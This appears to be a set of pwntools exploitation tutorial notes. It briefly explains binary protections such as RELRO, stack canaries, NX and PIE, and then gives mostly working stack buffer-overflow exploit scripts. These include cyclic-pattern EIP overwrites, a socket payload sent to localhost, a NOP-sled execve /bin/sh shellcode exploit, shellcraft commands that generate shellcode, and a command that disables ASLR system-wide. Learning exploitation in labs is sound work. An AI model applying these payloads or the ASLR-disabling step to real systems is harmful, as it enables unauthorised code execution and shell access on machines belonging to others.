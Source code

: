 checksec file

RELRO stands for Relocation Read-Only -  https://www.redhat.com/en/blog/hardening-elf-binaries-using-relocation-read-only-relro
Stack canaries are tokens placed after a stack to detect a stack overflow - https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/
NX is short for non-executable - https://en.wikipedia.org/wiki/Executable_space_protection
PIE stands for Position Independent Executable - https://access.redhat.com/blogs/766093/posts/1975793

https://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/

cyclic.py
#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from pwnlib.commandline.common import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())

cyclic 100

pwn_cyclic.py

from pwn import *
padding = cyclic(cyclic_find('jaaa'))
eip = p32(0xdeadbeef)
payload = padding + eip
print(payload)

python pwn_cyclic.py > attack

./file < attack

gdb file
r - to run
r < attack


pwn_network.py

from pwn import *
connect = remote('127.0.0.1', 1336)
print(connect.recvn(18))
payload = "A"*32
payload += p32(0xdeadbeef)
connect.send(payload)
print(connect.recvn(34))

shellcraft

from pwn import *
proc = process('./file')
proc.recvline()
padding = cyclic(cyclic_find('taaa'))
eip = p32(0xffffd510+200)
nop_slide = "\x90"*1000
shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"
payload = padding + eip + nop_slide + shellcode
proc.send(payload)
proc.interactive()


disable_aslr.sh
echo 0 | tee /proc/sys/kernel/randomize_va_space

shellcraft.py

#!/usr/bin/python
# -*- coding: utf-8 -*-
import re
import sys
from pwnlib.commandline.common import main
if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())

python3 shellcraft.py i386.linux.execve "/bin///sh" "['sh', '-p']" -f a
python3 shellcraft.py i386.linux.execve "/bin///sh" "['sh', '-p']" -f s



